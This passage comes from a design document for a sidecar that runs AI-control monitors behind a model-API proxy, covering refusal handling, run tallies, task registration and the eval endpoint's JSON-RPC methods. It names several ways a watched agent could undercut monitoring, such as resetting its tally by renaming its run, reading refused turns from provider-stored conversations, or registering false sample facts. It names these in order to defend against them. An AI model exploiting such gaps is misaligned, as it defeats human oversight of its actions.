- **A sentinel is not timed by default.** When a proxy stops waiting for the sidecar's answer, the sidecar is not told, and the sentinel carries on until it has decided. This is deliberate. An eval can still ask the sidecar what was decided (section 9), and a late `reject` or `terminate` still counts for the run. What a late decision cannot do is change what the client received, because by then the proxy has acted without it. A proxy that refuses a failed call has refused this one and discarded the reply. A proxy that is set to let a failed call through has already sent the reply on, so a late `reject` is recorded against a reply the client has. So if a monitor is usually slower than the proxy's wait, the proxy's wait needs to be raised. Behind Middleman the wait is `MIDDLEMAN_PASSTHROUGH_HOOK_TIMEOUT_SECONDS`, which is 30 seconds unless set. That default suits a rule that decides at once. A decision can take far longer, up to hours when a person is asked, so an operator sets the wait for the slowest decision they expect and not for a typical one. It applies to each call of `MiddlemanHook` separately, one for the request and one for the reply, and the call for a reply starts only once Middleman has the whole reply. It is not a limit on how long a turn is held. An operator who wants a ceiling on the sentinel sets `--time-limit`, in seconds. A sentinel that passes the limit is cancelled, the sidecar answers the proxy's hook with a 504, and the request is recorded as not judged, with the time limit as the reason. Only a monitor that is waiting, for a model or for the network, can be cancelled this way. Whatever the monitor had already written to the run's store stays there.
- **What a refusal looks like to the agent's SDK depends on how much has been released** (**measured** with the earlier Envoy processor):
  - Nothing was released, and then the turn is refused. The SDK raises a typed API error, with the status and the error body the sidecar chose.
  - Some bytes were released, and then the turn is refused. The SDK sees a stream that was cut off.
  - Some content was released, and then an error event is sent inside the stream. The SDK raises a typed API error, although the HTTP status was 200.
- **A long hold can lose the connection.** While a turn is held, the client is sent nothing. Something between the client and the proxy, such as a load balancer, may close a connection that has been silent for too long, whatever the proxy's own wait is set to. So a decision that takes hours, as when a person is asked, cannot be delivered by holding one request open. It needs another way to reach the client, such as the bullet below, or a refusal the client comes back from. Not designed.
- **Keeping the connection alive while holding.** Middleman could do this alone, with no change to the sidecar. Middleman would send the success status and its keepalives at once, hold all of the content, and deliver a refusal as an error event inside the stream. The client would no longer wait in silence, but a refusal would no longer have a real HTTP status. Not built.
- **Releasing part of a turn early.** This means passing on text as the model writes it, while still holding the tool calls. It worked with the earlier Envoy processor: the sentinel's decisions were still enforced. It has two costs. The status line has already been sent, so a refusal cannot have a real status. And when the rest of the turn is refused, the agent is left with half a turn that it cannot act on. Behind Envoy, releasing early needs work in the shim and the handler only, because Envoy already hands over chunks and accepts an answer at any time. Behind Middleman, it also needs Middleman to hand over chunks, which is a larger change to Middleman. The sentinel is the same in both cases, because it judges complete steps. Not built. The Envoy shim is to hold everything at first.
- **Compressed bodies.** This applies to a proxy that hands over the provider's bytes as they came, as Envoy does. The sidecar decodes a reply by its `Content-Encoding` in order to read it. A reply that passes is sent on as the provider's original bytes. A reply that is replaced is sent in an encoding the client accepts, with headers that match the bytes sent. The Envoy shim is to start by asking the provider for an uncompressed reply.

## 6. Providers that keep the conversation

The deployment design depends on every request carrying the whole conversation, because the whole conversation is what a monitor reads. OpenAI's Responses API can store the conversation at the provider. A client that uses this sends only the new part of the conversation, and a reference to the rest.

**The sidecar does not support conversations stored at the provider.** The clients tested do not use them: inspect_ai sets `store=False` and sends the whole conversation, and Codex does the same by default (**measured**).

- **A request that depends on a stored conversation is unreadable.** That is a request with a `previous_response_id` or a conversation id. Without the earlier turns, a monitor would be judging a fragment of the conversation and could not know it. Built.
- **A request that asks to be answered in the background is unreadable.** The client fetches the reply later with a separate call, and the sidecar is never shown that call. Built.
- **A request is unreadable if one of its items is a reference to a stored item, with no content.** inspect_ai's reader raises an error on such an item.
- **The endpoints that read stored turns are not routed through the proxy.** The provider generates and stores a turn before the sidecar decides on it, so refusing a turn does not stop the turn existing at the provider. In a test, a refused `send_email` call came back, arguments included, from an ordinary request for the stored conversation (**measured**). What the sidecar promises is that a refused turn never reaches the agent through the proxy. That promise holds only while the endpoints that read stored turns are closed, or are judged. Middleman routes none of them.
- **The `store` field is left as the client sent it.** A client that sends the whole conversation, and also asks the provider to store it, is judged like any other client.

## 7. Which run a request belongs to

Some protocols count. An example is a protocol that ends a run after three rejected calls. A count like that, called a tally here, has to be kept separately for each run, so the sidecar has to know which run each request belongs to.

In an eval, the sidecar cannot work that out from the conversation. A fingerprint of how a conversation opens is the same for every epoch of a sample, and the epochs often start at the same moment. A tally kept under that fingerprint would be shared by all of the epochs (**measured**: with four epochs running at once, one was ended by a limit that no single epoch had reached).

- **The eval says which sample a request belongs to in `x-inspect-context`.** This is one header that holds a small JSON object. Inspect sends it only to a proxy that its probe at task init found a sidecar behind (section 9), so a provider reached directly never sees it. It carries enough for the sidecar to work without registration, and nothing long or private. Its fields are:

  | Field | What it is |
  |---|---|
  | `version` | the version of this header's format, `1` |
  | `eval_id` | the id of the eval, as the eval log records it |
  | `task` | the task's name |
  | `sample_id` | the sample's id in the dataset, a string or an integer |
  | `epoch` | the epoch, from 1 |
  | `sample_uuid` | the uuid the eval log gives the sample. It stays the same when Inspect retries a sample after an error |
  | `attempt` | Inspect's id for this attempt at the sample (`sample_active().id`). A retry has a new one. Hawk's `x-inspect-sample-uuid` header carries this id |

  The proxy hook reads `sample_uuid` and passes it as the call's `run`, so a run is one sample in one epoch, across its retries. The sample's input and metadata are not in the header. They are too long for a header, and the metadata can be private, so they reach the sidecar only through registration. Registration is per task (section 9), and the sidecar finds a sample's registered facts by the header's `eval_id`, `task` and `sample_id`. Inspect's existing `x-irid` header stays the id of a single model request. Reading the header and checking it against registration are not built yet.
- **A run that the proxy names is one run, however many conversations it holds.** A subagent's conversation belongs to the same run. Rejected turns are still kept separately for each conversation within the run.
- **Scans and graders use the same proxy.** The model calls of a Scout scan, and of an eval's grader, pass through Middleman as an agent's calls do. They reach the sidecar unless the proxy is configured to keep them from it. The job's type is among the headers a sentinel is given (section 8), so a sentinel can tell a scan from an eval. Nothing marks a grader's calls.
- **Headers carry compact context, not the sample's fuller details.** The proxy passes `x-inspect-context` and `x-irid` to the sidecar in the RPC body and removes them before contacting the provider. A sample's input and private metadata reach the sidecar through registration (section 9), and are never put into the provider request.
- **When no header names the run, the key is how the conversation opens.** This is the production case, where two conversations rarely open with the same text.
- **A naked agent's name for its run is trusted, for now.** With a naked agent, the headers are set by something inside what is being watched. A model in control of the agent could change the name and start again with a clean tally, and with a run that is no longer ended. A check can be added later. The check would be that a run's name first appears at the start of a conversation, because a swapped name would turn up on a conversation that already has model turns behind it.
- **A tally can be kept at more than one level.** One level is the sample: one tally for each run, which is what `context.store_as()` gives in an eval today. Another level is the task: one tally shared by every sample. How a sentinel says which level it wants is not yet designed.

## 8. What a sentinel is given

The table lists what a sentinel is given when it runs inside an eval's process, and what the sidecar gives it in each case.

| Given in an eval's process | In the sidecar | Status |
|---|---|---|
| `step.call`, `message`, `input` | read from the request and the reply | built |
| `step.history` | the conversation the sidecar keeps for the run, so that turns a later request no longer carries are still there | not built; today only what the request carries |
| `step.conversation` | the run's key, with the conversation told apart by how it opens (section 7) | built |
| `step.view` | the view Inspect would make: the tool's own viewer where the sidecar has it, otherwise inspect_ai's default view (section 9) | not built; an empty view today |
| `AfterToolCall.output`, the tool's return value before truncation | left empty, because the request carries only the result the model is sent | built |
| `context.eval` | None, unless the sample's task was registered with the sidecar (section 9) | built for a sample registered by itself |
| `context.proxy`, which is None in an eval's own process | the provider, the model and the user as the proxy names them, the request headers the proxy passed on, and, for an Inspect client, what `x-inspect-context` says | built, without what `x-inspect-context` says |
| `context.store_as()` | a store kept for the run, in the sidecar | built, in memory |
| `context.host.generate` | the sidecar calls models itself through inspect_ai, with roles from its own configuration. There is no agent's model to fall back on | built, calling the provider directly; explained below |
| `context.host.ask_human` | the turn is held and the question is kept in the run's state until a person answers; explained below | not built; today a log line, and the step goes on |
| records in the eval's log | sent to an Inspect client in the `sentinel` field, and kept in the sidecar, where the eval can also ask for them (section 9) | kept in memory and answered on request; the field is not built |

**`context.eval` is never filled from the model traffic.** The nearest thing in the traffic to the sample's input is the conversation's first user turn. That turn has been through the agent, which may have wrapped or rewritten it. `EvalContext` promises that nothing in it came from the agent, so the sidecar leaves `eval` as None until the eval itself has supplied the details. This is also how a monitor tells which kind of client it is serving: for a naked agent, `context.eval` is always None.

**`context.proxy` is what the proxy said about the request.** It holds the provider, the model's name and the user, as the proxy gives them. It also holds, by name, whichever request headers the proxy passed on. Behind Middleman those headers are the labels that Hawk's runner puts on a job (its type, the task, the sample and the epoch), and any others the operator listed, such as Inspect's id for the request. None of this is verified. The caller set the headers, so with a naked agent they came from the agent. That is why `proxy` is a separate field beside `eval` and not part of it. A sentinel that treats a scan differently from an eval, or that picks a rule by the model being watched, reads `context.proxy`. Under Hawk, the kind of job is the `x-hawk-job-type` header there.

**`AfterToolCall.output` is left empty.** Inspect truncates a long tool output before the model is sent it, and only the truncated version is in the model traffic. If the sidecar put the truncated version in `output`, a monitor could read it and believe it was the whole output. Left empty, no monitor makes that mistake. A monitor works from `result`.

**The history is kept by the sidecar.** In an eval's process, Inspect hands a step its own conversation. A request need not carry the whole of it, because an agent may compact earlier turns away. So the sidecar keeps each run's conversation as requests arrive, and gives a step that kept history, so that monitors are given the same turns Inspect would give them in process.

**A person who answers.** In an eval, `human()` asks a person through Inspect's approval UI and waits for the answer. The sidecar does the same for an Inspect client. It holds the turn and keeps the open question in the run's state. `RemoteSentinel` picks the question up and shows it in the same approval UI. The person's answer goes back to the sidecar on a credential of the person's own, never on the eval's (section 9, "A client that can't be trusted"), and the sidecar then decides. At the generate stages, Inspect has no way to show a person a whole request or reply, and asking one fails the step there. The sidecar does the same. For a naked agent, nobody is usually watching, so the case is written where a reviewer will find it, and the step goes on. A hold that lasts hours may lose its connection (section 5). How `RemoteSentinel` learns of an open question is not designed.

**A monitor's model calls in a gated deployment.** Some proxies are gateways: they sign callers in and decide which models each caller may use. Middleman is one. Behind a gateway, a monitor's own model calls belong behind the gateway too. The case that makes this matter is an unreleased model under evaluation. Its output is in every step a monitor reads, so a monitor that asked another lab's model for a judgement would be sending that output to the other lab. Most of what is needed is network and access control that such a deployment already has:

- **The sidecar signs in to the gateway as itself.** It is given the gateway's base URLs, as an eval's runner is. The provider keys stay in the gateway.
- **The gateway's access control decides which monitor models the sidecar can reach.** The sidecar's identity is granted only the models approved for the model under evaluation. That grant is what keeps the model's output inside its lab, and the gateway enforces it.
- **The sidecar's own calls are not handed back to the sidecar to judge.** Otherwise a monitor's model call would come back to the sidecar that made it. The gateway exempts the calls by the sidecar's signed-in identity, and not by a header the sidecar sets.
- **A monitor's model is chosen by the model being watched.** The proxy names the model being watched with each request, so one sidecar can serve models from more than one lab.

None of this is built. Today the sidecar calls a monitor's model directly, with its own key, and a role has one model whatever model is being watched.

## 9. A connection between an eval and its sentinel

When a sentinel runs in a sidecar, every step is judged on the traffic that passes through the proxy. Inspect's side of the connection is `RemoteSentinel`. It does four things, and the sidecar needs none of them to make a decision:

1. At task init, it probes the proxy, to check that a live sentinel of a version it knows is behind it.
2. Where the deployment allows it, it registers the task's facts with the sidecar.
3. On each model request, it sends `x-inspect-context`, which says which sample the request belongs to (section 7).
4. It reads what the sidecar decided from the `sentinel` field on each reply or refusal. It fetches the run's state before scoring, and ends the run once the sample is scored.

None of this is built in Inspect. `examples/always_sunny` has an Inspect hook that stands in for registration and for fetching results, using the methods of the endpoint for evals that are built.

### Finding the sidecar

Inspect knows only the base URL of the model API it is configured to use. By default, the endpoint for evals is reached at that same URL: the operator has the proxy forward the path `/sentinel`, and everything under it, to the sidecar.

At task init, Inspect sends a probe there: `GET /sentinel/probe`, at the proxy's base URL. It checks two things: that a live sentinel is behind the proxy, and that it speaks a version of the methods Inspect knows. The probe's own path has no version, because the probe is how Inspect learns which versions there are. Inspect then uses the highest version both sides know, such as `/sentinel/v1`. The sidecar answers:

```json
{
  "service": "inspect_sentinel",
  "versions": [1]
}
```

If the answer is not this, or no answer comes, Inspect runs the task with no sentinel in a sidecar: it sends no `x-inspect-context` and registers nothing. A proxy with no sidecar behind it answers with an error, or passes the path on to the provider, which answers with one.

The probe asks for no credential, and its answer holds nothing that needs one.

### Registering a task

A sentinel in the sidecar is given the sample's details as `context.eval` only when the sample's task has been registered. A task reaches the sidecar in one of two ways.

- **Registered beforehand, by an admin.** Before the eval runs, an admin registers its tasks and their samples with the sidecar. The admin can mark a task as fixed, and then nothing can replace it, including Inspect's registration at task init. This is the base case, and the one for secure environments. The admin can also install the task's package beside the sentinel, so that the sidecar has the task's own tool viewers ("Tool views" below). How an admin registers tasks is not designed.
- **Registered by Inspect at task init.** This is off unless a deployment turns it on. A sidecar where it is off refuses Inspect's registration ("The methods" below). Before the task's first sample starts, Inspect sends the task's facts and every sample's input and metadata.

```json
{
  "jsonrpc": "2.0",
  "id": 1,
  "method": "register_task",
  "params": {
    "eval_id": "eval_789",
    "task": "philadelphia",
    "task_description": null,
    "keep_for": 604800,
    "tools": {
      "get_weather": "always_sunny/get_weather",
      "report_weather": "always_sunny/report_weather"
    },
    "samples": [
      {
        "sample_id": 1,
        "sample_description": null,
        "sample_input": "File today's weather report for Philadelphia.",
        "metadata": {"desk": "weather"}
      }
    ]
  }
}
```

`tools` maps each tool name the model sees to the tool's registry name, so that the sidecar picks the right viewer for each call. A registration is kept for a day after the last request that names its task, unless `keep_for` asks for longer, in seconds. The example asks for a week. A task that an admin registered beforehand is never dropped by the sidecar. A sample input that is a list of chat messages is sent in the JSON form inspect_ai writes messages in. A new registration for a task replaces the one the sidecar holds, unless that one is marked fixed. A replacement does not reach a run that has already started: a run takes its sample's facts at its first request and keeps them to its end. Sending the same registration again therefore has no effect, so Inspect can safely retry.

The sidecar stores the facts under the eval id, the task and the sample id. Each model request names those three in `x-inspect-context`, and the sidecar finds the sample's facts by them. The run is keyed by the header's `sample_uuid` (section 7), so each epoch of a sample is a run of its own, with the same registered facts.

### When registration fails

Registration at task init can fail because the endpoint for evals is down, cannot be reached, or answers with an error. Inspect has a setting for what it does then:

- **`required`, the default.** The task does not start. Inspect records the failure as the error. This is the setting for an eval whose sentinel needs the samples' inputs or metadata.
- **`optional`.** Inspect logs a warning, writes into each sample's transcript that its sentinel runs without the sample's details, and starts the task. Inspect still sends `x-inspect-context` on every model request.

With `optional`, the sidecar sees requests for samples that were never registered. It treats them like this:

- **The run is still keyed by the sample.** The proxy hook passes `sample_uuid` as the run, as it does when registration succeeds. Tallies are kept for each sample, and the `sentinel` field is sent as usual.
- **`context.eval` is None.** The sample's input and metadata are not in the header, and the sidecar does not invent them.
- **The header's fields are given to the sentinel as `context.proxy.inspect`.** This is the eval id, the task, the sample id, the epoch, the sample's uuid and the attempt. They are unverified, like everything else in `context.proxy`, because the caller set the header. A monitor that needs only the task's name or the epoch reads them there.
- **Registration that arrives later is accepted.** If Inspect retries the registration once the endpoint is back, the sidecar stores it, and later steps are given `context.eval`. Steps already judged are not judged again.

The setting does not apply where tasks are registered beforehand. There, Inspect does not register tasks itself, and the sidecar refuses a request for a sample it does not know.

The `optional` setting may be removed later, if deployments turn out not to need it.

### One model exchange

Inspect makes one model request and gets one response. While that request is open, the proxy calls the sidecar twice: `judge_request` before the provider is called, and `judge_reply` before anything of the reply is released.



The diagram shows a sample that goes on. Whatever is decided, Inspect receives one response:

| What the sidecar decides | What Inspect receives |
|---|---|
| `terminate` at an `AfterToolCall` or at `BeforeGenerate` | a provider-format error with the `sentinel` field. The provider is not called |
| `terminate` at `AfterGenerate` or at a `BeforeToolCall` | a provider-format error with the `sentinel` field. The reply is withheld |
| every tool call in the reply rejected | a provider-format error with the `sentinel` field. The reply is withheld |
| some tool calls rejected or modified | the reply, with those calls taken out or changed, and the `sentinel` field |
| `proceed` at every step | the provider's reply, with the `sentinel` field |

In more detail:

1. **Inspect sends its model request to the proxy**, with `x-inspect-context` and Inspect's own `x-irid`. OpenAI Chat Completions is the example here. Other routes keep their own paths and body formats.

   ```http
   POST <proxy>/v1/chat/completions
   Content-Type: application/json
   x-irid: request_456
   x-inspect-context: {"version":1,"eval_id":"eval_789","task":"philadelphia","sample_id":1,"epoch":2,"sample_uuid":"sample_123","attempt":"attempt_1"}
   ```

2. **The proxy hook puts the request to the sidecar.** It sets `run` from the header's `sample_uuid`, and passes on `x-inspect-context` and `x-irid` among the request's headers, never a credential:

   ```text
   POST <sidecar>/proxy/v1

   JSON-RPC method: judge_request
   params:
     id: proxy_exchange_id
     run: "sample_123"
     provider: "openai"
     format: "openai-chat"
     model: requested_model
     headers: {x-inspect-context, x-irid}
     body: provider_request_body
   ```

   The proxy's exchange id ties `judge_request` to the later `judge_reply`. It is not Inspect's `x-irid`.

3. **The sidecar judges the request.** It finds the sample's registered facts by the header's `eval_id`, `task` and `sample_id`, and gives them to the sentinel as `context.eval`. It judges `AfterToolCall` for each tool result the run has not seen before, then `BeforeGenerate`. If either ends the run, the sidecar answers `refuse`, with the `sentinel` field for the error body, and the provider is not called. Otherwise it answers `pass`, and the proxy sends the request on, without Inspect's two headers.

4. **The proxy hook puts the reply to the sidecar**, whole, once the provider has finished:

   ```text
   POST <sidecar>/proxy/v1

   JSON-RPC method: judge_reply
   params:
     id: proxy_exchange_id
     provider: "openai"
     format: "openai-chat"
     model: requested_model
     status: provider_http_status
     content_type: provider_content_type
     body: base64(provider_reply_bytes)
   ```

   The exchange id brings back the request, its `x-irid` and the run.

5. **The sidecar judges the reply.** It judges `AfterGenerate`, then `BeforeToolCall` for each tool call in the reply. It carries out the decisions as section 4 describes, and answers with the reply to send, with the `sentinel` field added, or with `refuse`.

6. **The proxy completes Inspect's request** with what the sidecar answered. Inspect reads the `sentinel` field before the agent is given anything.

A model call that Inspect answers from its cache never reaches the proxy, so none of its steps are judged. How a cache hit is handled is not designed. `reject` and `modify` at the generate stages are not supported by the core package yet. What they would mean in the sidecar follows whatever the core package defines for them.

### The `sentinel` field

When a request carried `x-inspect-context`, the sidecar adds a `sentinel` field to what Inspect receives. It sits beside the provider's own fields, so the provider's SDK still reads the reply or the error as usual, and Inspect reads the field. Every other client gets the provider's reply or error with no field added.

This is an Anthropic reply, not streamed, after the sidecar took out one of the model's two calls:

```json
{
  "id": "msg_01XFDUDYJgAACzvnptvVoYEL",
  "type": "message",
  "role": "assistant",
  "model": "claude-haiku-4-5",
  "content": [
    {"type": "text", "text": "I'll check the weather, then file the report."},
    {"type": "tool_use", "id": "toolu_01A", "name": "get_weather", "input": {"city": "Philadelphia"}}
  ],
  "stop_reason": "tool_use",
  "usage": {"input_tokens": 812, "output_tokens": 96},
  "sentinel": {
    "version": 1,
    "steps": [
      {"stage": "model_input", "decision": {"action": "proceed"}, "recorded": []},
      {"stage": "model_output", "decision": {"action": "proceed"}, "recorded": []},
      {"stage": "tool_call", "call": "toolu_01A", "decision": {"action": "proceed"}, "recorded": []},
      {
        "stage": "tool_call",
        "call": "toolu_01B",
        "original": {"id": "toolu_01B", "function": "report_weather", "arguments": {"conditions": "heavy rain"}},
        "decision": {
          "action": "reject",
          "message": "It's always sunny in Philadelphia.",
          "explanation": "The report said heavy rain."
        },
        "recorded": [
          {
            "kind": "record",
            "path": "always_sunny",
            "factory": "always_sunny",
            "name": "always_sunny",
            "call": "toolu_01B",
            "report": {"action": "reject", "explanation": "The report said heavy rain.", "message": "It's always sunny in Philadelphia."}
          }
        ]
      }
    ]
  }
}
```

And this is a refusal, after a sentinel ended the run at a tool result in the request:

```json
{
  "type": "error",
  "error": {"type": "invalid_request_error", "message": "A sentinel ended this run."},
  "sentinel": {
    "version": 1,
    "steps": [
      {
        "stage": "tool_result",
        "call": "toolu_01A",
        "decision": {"action": "terminate", "explanation": "The weather service returned credentials."},
        "recorded": []
      }
    ]
  }
}
```

- **`steps` lists every step judged during the exchange**, in the order they were judged: `AfterToolCall` for each new tool result in the request, `BeforeGenerate`, `AfterGenerate`, and `BeforeToolCall` for each call in the reply. A step that ended the run is the last. The stage names are the ones Inspect's own sentinel events use: `model_input`, `model_output`, `tool_call` and `tool_result`.
- **`decision` is the step's final `Decision`**, as the core package writes it.
- **`recorded` is what each monitor and protocol recorded for the step**, in the form `request_result` returns.
- **`original` is the call the model proposed**, written as Inspect writes a tool call, and is there only when the sidecar took the call out or changed it.
- **Inspect acts on the field as it would in process.** It puts a call that was taken out back into its own copy of the conversation, with an approval error that holds the rejection's `message`. It keeps the model's original call in its copy where a call was changed, and records the arguments that ran. It ends the sample on a `terminate`, and still scores it. It writes every step into its transcript, including those that changed nothing.
- **Only a rejection's `message` is meant for the agent.** Inspect never shows the agent anything else in the field.
- **On a stream, the field goes in the last event that the provider's SDK reads**: Anthropic's `message_delta`, the last chunk of an OpenAI Chat Completions stream, or the Responses API's `response.completed`. An event of a new type would not do, because the Anthropic SDK drops event types it does not know.
- **With `--no-eval-results`**, each step keeps only what Inspect acts on: the stage, the call, `original`, and the decision's action, `message` and modified call. The explanation, the references, the metadata and `recorded` are left out, and the field says so.
- **Where a proxy does not carry the field to the client**, Inspect asks the sidecar instead, with `request_result` and the request's `x-irid`. Each proxy hook's README says which of its routes those are.

### Tool views

A step at a tool call has a `view`: how Inspect presents the call to a person, such as a bash command shown as code. A tool's author gives it a viewer, and a tool without one gets inspect_ai's default view. The sidecar runs inspect_ai, so it makes the view Inspect would make wherever it has the viewer:

| How the task reached the sidecar | The views the sidecar makes |
|---|---|
| registered beforehand, with the task's package installed beside the sentinel | each tool's own view, its own viewer included |
| registered by Inspect at task init | the viewers of inspect_ai's own tools, such as `bash` and `python`, and the default view for every other tool. A viewer is code, so it cannot be sent at registration |
| not registered | the viewers of inspect_ai's own tools, matched by the tool's bare name, and the default view otherwise |

Registration maps each tool name to the tool's registry name, so that a custom tool called `bash` is not given the viewer of inspect_ai's own `bash`. A tool made while the eval runs, such as one reached over MCP, has no registry entry and gets the default view.

### What comes back to the eval

When a sentinel runs inside an eval, its records appear in the eval's log, its state is available to scorers, and a `terminate` is recorded as the end of the sample. A sidecar cannot write into the eval's log or store, so the eval is sent these things or asks for them.

- **Records.** The `sentinel` field brings each exchange's records with the response, and Inspect writes them into its transcript at that point. Where the field did not reach Inspect, Inspect asks the sidecar with `request_result`, by the `x-irid` of the request. When an eval starts a naked agent, the eval asks once, when the sample ends.
- **Three answers, never two.** When asked about a request, the sidecar gives one of three answers: here is what was recorded; records were held for this request but are no longer kept; or this request was never seen. The eval writes whichever answer it gets into its log. The log then shows a gap where records were lost. Without the distinction, lost records would look like a run in which the sentinel had nothing to say.
- **State.** The sidecar holds a run's tally. Before scoring, the eval fetches it with `run_result` and copies it into the sample's own store, where scorers read it in the usual way. If the eval did not do this, a scorer would find the default values in the store and would read the run as clean, with no error to show that anything was missing.
- **The end of a sample.** Once the sample is scored, the eval calls `end_run`, and the sidecar drops the run's state.
- **New, or a resume.** A new run starts with an empty tally. A resumed run continues with the tally the sidecar remembers. An eval that has gone back to an earlier checkpoint can tell the sidecar which state it has returned to. Going back is rarely used today, so the design allows for it, but it is not among the first things to build. How the eval says that a run is new or resumed is not designed.

### The methods

The sidecar serves two endpoints:

- **The endpoint for proxies**, at `POST /proxy/v1`. A proxy hook sends each request and each reply here to be judged.
- **The endpoint for evals**, at `POST /sentinel/v1`, with the probe at `GET /sentinel/probe`.

**By default, the sidecar serves both on one port, 8900, and only the proxy reaches it.** Inspect reaches the endpoint for evals through the proxy, at the model API's base URL, and the proxy forwards `/sentinel` to the sidecar. Inspect presents the same credential it uses for the model API, and the proxy checks it before forwarding, as it does for a model call. Nothing new is configured in Inspect.

**As an advanced option, the endpoint for evals has a port of its own**, 8901 unless set otherwise, and a token of its own, read from the `INSPECT_SENTINEL_EVAL_TOKEN` environment variable. This is for a deployment where something other than the eval can use the eval's credential for the model API, such as an agent that makes its own model calls ("A client that can't be trusted" below). Inspect is then configured with that port's URL and the token, and sends the token as a bearer credential, in the `Authorization` header. A call without the right token is answered with HTTP 401.

The endpoint for evals uses JSON-RPC 2.0. JSON-RPC was chosen to be consistent with inspect_ai, which already uses it to talk to the tools it runs in a sandbox and so already has the client code. Every call is a POST to one path, `/sentinel/v1`, and the body names the method. The `v1` in the path is the version of the methods. The methods are `register_task`, `request_result`, `run_result` and `end_run`. None of them is needed for the sidecar to make a decision. The JSON Schema file, `src/inspect_sentinel/sidecar/eval_endpoint.schema.json`, is generated from the models in the code, and a test fails if it is out of date. `register_task` is not built, and is not in the file yet.

A call that can be read is always answered with HTTP 200, and the body says whether it succeeded, as JSON-RPC defines.

**`register_task`.** Inspect sends a task's facts at task init, where the deployment allows it. "Registering a task" above shows the call. The result says what the sidecar stored:

```json
{
  "jsonrpc": "2.0",
  "id": 1,
  "result": {
    "eval_id": "eval_789",
    "task": "philadelphia",
    "samples": 1
  }
}
```

A registration for a task that an admin marked fixed is an error, with the code `-32001`, and the fixed registration stays. A sidecar that takes only tasks registered beforehand answers every `register_task` with that error too.

**`request_result`.** The eval asks what happened to one model request. It identifies the request by the id it sent with it. The sidecar reads that id from Inspect's `x-irid` header, or from the header that `--request-id-header` names:

```json
{
  "jsonrpc": "2.0",
  "id": 2,
  "method": "request_result",
  "params": {"id": "irid-7f3a9c"}
}
```

```json
{
  "jsonrpc": "2.0",
  "id": 2,
  "result": {
    "id": "irid-7f3a9c",
    "records": "held",
    "state": "decided",
    "outcome": "reject",
    "message": "It's always sunny in Philadelphia.",
    "recorded": [
      {
        "kind": "record",
        "path": "always_sunny",
        "factory": "always_sunny",
        "name": "always_sunny",
        "call": "toolu_01Q8",
        "report": {
          "action": "reject",
          "explanation": "The report said heavy rain.",
          "message": "It's always sunny in Philadelphia."
        }
      }
    ]
  }
}
```

`outcome` is `proceed`, `reject` or `terminate`. `message` is the text the model is told. An `explanation` is written to the log only and is never shown to the model. Each record has a `call` field holding the id of the tool call it is about.

A client that retries a request sends it again under the same id. `outcome` and `message` are then for the latest attempt, and `recorded` holds every attempt's records in order. `state` says where the latest attempt stands, so that an eval can tell a request that will have an answer from one that never will:

- `judging`: the sentinel is at work on the request or its reply. Asking again later will give a different answer.
- `awaiting_reply`: the request was sent on, and the proxy has not handed over a reply. Middleman hands over only the replies of calls that succeeded, so a request whose call failed at the provider stays in this state.
- `decided`: `outcome` says what was decided.
- `not_judged`: judging ended without a decision, and `reason` says why. `unreadable` means the request or its reply could not be read. `time_limit` means the sentinel passed a time limit and was cancelled. `error` means the sentinel raised an error. `provider_error` means the provider's reply was an error, so there was nothing to judge.

`outcome` and `message` are present only when `state` is `decided`.

`records` says whether the sidecar has records for the request. It is one of three values: `held` means it has them, and they are in `recorded`; `dropped` means it had them and no longer keeps them; `unknown` means it never saw the request. `dropped` and `unknown` are normal results and not errors, because the eval writes them into its log. With either of them, the result has no `outcome`, `message` or `recorded`.

**`run_result`.** The eval asks once, before scoring:

```json
{
  "jsonrpc": "2.0",
  "id": 3,
  "method": "run_result",
  "params": {"run": "smp-4Xk2"}
}
```

```json
{
  "jsonrpc": "2.0",
  "id": 3,
  "result": {
    "run": "smp-4Xk2",
    "outcome": "proceed",
    "store": {
      "Tally:always_sunny:instance": "always_sunny",
      "Tally:always_sunny:rejected": 1
    }
  }
}
```

The eval copies `store` into the sample's own store, where scorers read it. The keys are the ones the sentinel wrote, which name the monitor or protocol that owns each value. `outcome` is `terminate` if a sentinel ended the run. A run the sidecar holds nothing for is an error, with the code `-32002`, so that an eval never mistakes a forgotten run for a clean one.

**`end_run`.** The eval tells the sidecar that a sample is over, once it has been scored, so after `run_result`:

```json
{
  "jsonrpc": "2.0",
  "id": 4,
  "method": "end_run",
  "params": {"run": "sample_123"}
}
```

```json
{
  "jsonrpc": "2.0",
  "id": 4,
  "result": {"run": "sample_123", "state": "ended"}
}
```

The sidecar drops the run's state: its sample's facts, its store, its kept conversation, the calls waiting to be put back, and any open question to a person. The records of the run's requests stay for as long as records are kept, so a late `request_result` is still answered. A request that names an ended run is refused, as for a run a sentinel ended. Ending a run that has already ended has no effect, so the eval can safely retry. A run the sidecar never saw is not an error, and `state` is then `unknown`.

Inspect does not end a run when a sample fails and Inspect will try it again, because that sample has not been scored, and the new attempt is the same run.

A run that is never ended, such as a naked agent's session or an eval that stopped before scoring, is dropped once no request has named it for a day. The time is set with `--run-expiry`, in seconds.

### A client that can't be trusted

Suppose an agent takes over the process that runs an eval. It then holds the eval's credential and can call the endpoint for evals. It can also run tools directly, without asking a model. No proxy sees those tool runs, and containing them is the sandbox's job. The endpoint for evals cannot prevent that. Its obligation is to give a compromised client no additional power.

The same holds for anything else that has the eval's credential for the model API, such as an agent that makes its own model calls. By default, that credential is what the proxy checks before it forwards a call to the endpoint for evals. A deployment where that matters gives the endpoint for evals a port and a token of its own ("The methods" above).

Four rules follow.

- **No method can loosen a decision.** Every method either sends context in or reads results out. No method allows a call, clears a tally, or changes the sentinel or its configuration. Decisions are made only on the requests and replies a proxy sends. When a sentinel asks a person, that person's answer is never accepted on an eval's credential.
- **What an eval registers is a claim, not a fact.** A compromised client could register a sample input or metadata that is false, to mislead a monitor that reads them. Section 8 says that nothing in `context.eval` came from the agent. When Inspect registers a task at task init, that is true only if the process that sent the facts can be trusted. Where it cannot be, tasks are registered beforehand, by an admin, and marked fixed, so that nothing the eval sends can replace them ("Registering a task" above). A task that is not marked fixed can be replaced by any caller that can reach the endpoint for evals.
- **A credential works only for its own runs.** The sidecar checks that the caller is allowed to register the task, or read the run, that it names. One eval then cannot register or read another eval's. This rule is not built yet: today there is one token, and every caller that holds it can name any run.
- **Results can be withheld, and decisions still sent.** A record contains each monitor's explanation, and an explanation tells an agent what the monitor looks for. Where the client is not trusted, `--no-eval-results` turns off the two result methods and trims the `sentinel` field to what Inspect acts on: each step's stage, call, original call, action, agent-facing message and modified call. The field says that it was trimmed, so a trimmed field is never read as a run in which the sentinel had nothing to say.

Not yet designed:

- how an admin registers tasks beforehand
- whether a sentinel in a sidecar may ever be given the sample's `target`
- how a state is named when an eval has gone back to an earlier one
